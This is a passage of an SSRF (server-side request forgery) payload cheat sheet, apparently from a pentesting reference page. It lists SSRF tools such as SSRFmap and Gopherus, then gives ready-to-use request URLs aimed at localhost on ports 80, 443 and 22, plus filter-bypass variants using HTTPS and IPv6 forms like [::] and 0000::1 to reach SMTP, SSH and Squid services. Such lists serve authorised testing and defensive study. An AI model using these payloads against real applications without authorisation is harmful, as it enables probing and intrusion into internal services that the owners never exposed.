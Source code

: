 ## Tools

- [SSRFmap - https://github.com/swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)
- [Gopherus - https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [See-SURF - https://github.com/In3tinct/See-SURF](https://github.com/In3tinct/See-SURF)
- [SSRF Sheriff - https://github.com/teknogeek/ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)

## Payloads with localhost

Basic SSRF v1

```powershell
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

Basic SSRF - Alternative version

```powershell
http://localhost:80
http://localhost:443
http://localhost:22
```

## Bypassing filters

### Bypass using HTTPS

```powershell
https://127.0.0.1/
https://localhost/
```

### Bypass localhost with [::]

```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```powershell
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```
